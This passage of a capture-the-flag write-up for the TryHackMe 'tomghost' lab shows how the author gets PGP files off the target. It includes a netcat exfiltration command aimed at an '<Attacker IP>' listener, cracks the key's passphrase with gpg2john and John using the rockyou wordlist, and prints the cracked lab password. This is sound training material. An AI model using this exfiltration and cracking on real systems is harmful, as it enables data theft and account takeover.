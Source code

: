 We can't write to the /etc/passwd file nor have read access to /etc/shadow. Nor are there any exploitable SUID bits set, writable cronjobs or possible escalation via capabilities.

So here I realized I should go back to the credential.pgp and tryhackme.asc files found earlier. The .asc file seems to be the encryption key that might be used to decrypt the .pgp file. 

### 3.3 Gpg2john:<a name="33-gpg2john"></a>

Normally we would be able to decrypt a file like this using the following commands.

```
#Import the key:
gpg --import key.asc
#Decrypt the file:
gpg --decrypt file.pgp
```
However, since we do not have the passphrase required. We will ask the good ole John to crack it on our attacking machine (https://www.openwall.com/lists/john-users/2015/11/17/1).

But first, we need to use Netcat to exfiltrate the files to our own machine in order to this.

```
#Start listener on attacker machine
nc -lvnp 4444 > filename
#Exfiltrate via target machine
nc -vn <Attacker IP> 4444 < filename
```

![image](images/tomghost-13.png)

+ **John**:

```
┌──(mithlonde💀kali)-[~/ctf/tryhackme/tomghost]
└─$ gpg2john tryhackme.asc > password

File tryhackme.asc

┌──(mithlonde💀kali)-[~/ctf/tryhackme/tomghost]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt password
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG
...
alexandru        (tryhackme)     
...
cracked passwords reliably
Session completed. 
```
And there we have the password for the **credentials.pgp** file.
